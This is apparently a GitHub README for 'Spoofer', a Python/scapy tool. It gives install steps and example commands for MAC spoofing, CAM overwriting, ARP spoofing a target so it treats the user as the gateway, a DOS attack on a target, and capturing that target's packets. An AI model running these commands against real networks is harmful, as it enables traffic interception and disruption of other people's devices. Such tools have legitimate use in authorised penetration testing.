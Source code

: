 # Spoofer

A versatile tool for MAC address spoofing, ARP spoofing, CAM overwriting, DOS attacks, and packet capturing.

## Dependencies

- `python3`
- `scapy`
- `arp-scan`
- `arpspoof`
- `hping3`

## Installation

1. **Install Python dependencies:**
   ```bash
   pip install scapy
   ```

2. **Install system dependencies:**
   ```bash
   sudo dnf install arp-scan arpspoof hping3
   ```

## Usage

### Scan Subnet for Available MAC Addresses
```bash
sudo python spoofer.py --scan
```

### Change MAC Address
```bash
sudo python spoofer.py -i <interface> -m <manufacturer>
```
*Example:*
```bash
sudo python spoofer.py -i eth0 -m samsung
```

### Revert to Original MAC Address
```bash
sudo python spoofer.py -i <interface> --revert
```
*Example:*
```bash
sudo python spoofer.py -i eth0 --revert
```

### Overwrite CAM of Local Router
```bash
sudo python spoofer.py -i <interface> --overwrite-cam --router-ip <router-ip>
```
*Example:*
```bash
sudo python spoofer.py -i eth0 --overwrite-cam --router-ip 192.168.1.1
```

### ARP Spoof Devices to Believe You Are the Gateway
```bash
sudo python spoofer.py -i <interface> --arp-spoof --router-ip <router-ip> --target-ip <target-ip>
```
*Example:*
```bash
sudo python spoofer.py -i eth0 --arp-spoof --router-ip 192.168.1.1 --target-ip 192.168.1.100
```

### Perform DOS Attack on Target
```bash
sudo python spoofer.py -i <interface> --dos --target-ip <target-ip>
```
*Example:*
```bash
sudo python spoofer.py -i eth0 --dos --target-ip 192.168.1.100
```

### Capture Packets Intended for the Target
```bash
sudo python spoofer.py -i <interface> --capture --target-ip <target-ip> --output-file <output-file>
```
*Example:*
```bash
sudo python spoofer.py -i eth0 --capture --target-ip 192.168.1.100 --output-file captured_packets.pcap
```

## Notes

- Ensure you have the necessary permissions to run the commands and perform the operations.
- Use responsibly and only for legitimate security testing and educational purposes.
```

